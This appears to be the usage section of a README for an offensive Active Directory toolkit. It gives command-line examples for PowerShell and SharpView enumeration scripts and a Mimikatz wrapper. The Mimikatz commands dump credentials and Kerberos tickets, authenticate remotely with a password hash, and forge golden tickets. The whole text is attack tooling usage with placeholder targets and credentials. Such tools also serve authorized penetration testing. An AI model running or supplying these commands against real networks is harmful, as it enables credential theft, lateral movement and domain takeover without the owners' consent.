 ### PowerShell Enumeration

```bash
# Local enumeration
./powershell-enumeration.py local

# Remote enumeration
./powershell-enumeration.py remote -t 192.168.1.100 -u administrator -p Password123!

# Network scanning
./powershell-enumeration.py scan -n 192.168.1.0/24

# Full enumeration campaign
./powershell-enumeration.py full -t 192.168.1.100 192.168.1.101 -u administrator -p Password123!
```

### SharpView Automator

```bash
# Full enumeration
./sharpview-automator.py full -t 192.168.1.100 -u administrator -p Password123!

# Domain information
./sharpview-automator.py domain -t 192.168.1.100 -u administrator -p Password123!

# Domain trusts
./sharpview-automator.py trusts -t 192.168.1.100 -u administrator -p Password123!

# Users enumeration
./sharpview-automator.py users -t 192.168.1.100 -u administrator -p Password123!
./sharpview-automator.py users -a  # Admin users only

# Groups enumeration
./sharpview-automator.py groups -t 192.168.1.100 -u administrator -p Password123!
./sharpview-automator.py group-members -g "Domain Admins" -t 192.168.1.100 -u administrator -p Password123!

# Computer enumeration
./sharpview-automator.py computers -t 192.168.1.100 -u administrator -p Password123!
./sharpview-automator.py computers -s  # Servers only

# GPO enumeration
./sharpview-automator.py gpo -t 192.168.1.100 -u administrator -p Password123!

# ACL enumeration
./sharpview-automator.py acl -t 192.168.1.100 -u administrator -p Password123!
```

### Mimikatz Wrapper

```bash
# Local operations
./mimikatz-wrapper.py local all        # Run all local extraction techniques
./mimikatz-wrapper.py local creds      # Dump credentials locally
./mimikatz-wrapper.py local tickets    # Extract Kerberos tickets locally

# Remote operations
./mimikatz-wrapper.py remote -t 192.168.1.100 -d contoso.local -u administrator -p Password123!
./mimikatz-wrapper.py remote -t 192.168.1.100 -d contoso.local -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0

# Golden/Silver ticket
./mimikatz-wrapper.py local golden -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```